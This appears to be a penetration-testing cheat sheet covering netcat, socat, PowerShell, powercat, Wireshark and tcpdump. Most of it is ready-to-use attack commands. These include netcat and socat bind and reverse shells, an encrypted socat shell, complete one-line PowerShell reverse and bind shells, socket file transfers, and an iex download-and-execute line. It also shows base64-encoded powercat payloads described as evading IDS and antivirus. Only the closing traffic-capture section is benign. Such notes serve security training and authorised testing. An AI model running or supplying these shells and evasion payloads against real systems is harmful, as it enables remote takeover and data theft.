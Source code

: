 \pagenumbering{gobble}
# Practical Tools

## Netcat and Socat
Connect to a port:\
`$ nc -nv (ip) (port)`
`$ socat - TCP4:<remote server's ip address>:<port>`

Listen for connections on a port:\
`$ nc -nlvp (port)`
`$ sudo socat TCP4-LISTEN:<port> STDOUT`

Transfer and recive files:\
`$ nc -nv (server-ip) (port) < (file-to-upload)`\
`$ nc -nlvp (port) > (output-filename)`

`$ sudo socat TCP4-LISTEN:<port>,fork file:secret_passwords.txt`\
`$ socat TCP4:<ip>:<port> file:received_secret_passwords.txt,create`

Bind shell:\
`$ nc -nlvp <port> -e /bin/bash`

Reverse shell:\
`$ nc -nv <ip> <port> -e /bin/bash`
`$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

Reverse shell listner for socat:\
`$ socat -d -d TCP4-LISTEN:443 STDOUT`


### Encrypted bind shell with socat
Use openssl to create a certificate:\
`$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`\
`$ cat bind_shell.key bind_shell.crt > bind_shell.pem`

Now we can start the encrypted listner:\
`$ sudo socat OPENSSL-LISTEN:<port>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`

Then we can connect to it with:\
`$ socat - OPENSSL:<ip>:<port>,verify=0`

## PowerShell
Powershell file download:\
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<ip>/<file>',`\
`'C\Users\<user>\Desktop\<filename-to-save>')"`

Powershell reverse shell:
```
powershell -c "$client = New-Object
System.Net.Sockets.TCPClient('<ip>',<port>);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-
String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush();}$client.Close()"
```

Powershell bind shell:
```
powershell -c "$listener = New-Object
System.Net.Sockets.TcpListener('0.0.0.0',<port>);$listener.start();$client =
$listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes =
0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback =
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>
';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush()};$client.Close();$listener.Stop()"
```
## Powercat
Powercat is a clone of Netcat written in powershell. We can load the script using a powershell feature called dot sourcing:\
`PS C:\Users\Username> . .\powercat.ps1`

You can also download it using the iex cmdlet:\
`iex (New-Object System.Net.Webclient).DownloadString(`\
`'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

Powercat file transfer to server:\
`powercat -c <ip> -p <port> -i C:\where\to\save\file\filename`

Powercat bind shell:\
`powercat -l -p 443 -e cmd.exe`

Powercat can also be used to create payloads. Here is how to use powercat to create a stand alone reverse shell script:\
`powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1`

We can also create base64 encoded payloads that can help to evade IDS and antivirus:\
`powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1`

To run this we can use the -E flag with powershell, but we need to pass in the string directly:\
`powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AM...`

## Wireshark
Wireshark can be used to capture and view network traffic. You can filter what is captured, and then refine your search after with display filters. You can also follow tcp streams to view the full data of a session.

## Tcpdump
Tcpdump is similar to wireshark, but it is a CLI tool. You can view pcaps files with the -r flag (the X flag shows the packet data, and the A flag shows ascii data):\
`$ sudo tcpdump -r -X <filename>.pcap`

You can also filter the results with other unix tools to get a better understanding of the data. This command will filter out the ip addresses and sort them by the number of times they appear in the data:\
`$ sudo tcpdump -r password_cracking_filtered.pcap | awk -F" " '{print $5}' | sort | uniq -c | head`

There are also other flags you can use with tcpdump to better filter data, such as `src host <ip>`, `src dest <ip>`, `port <port>`. You can also filter headers with `tcp[tcpflag]`:\
`$ tcpdump 'tcp[tcpflags] == tcp-ack or tcp[tcpflags] == tcp-syn' -r -A <filename>.pcap`



 








 














 

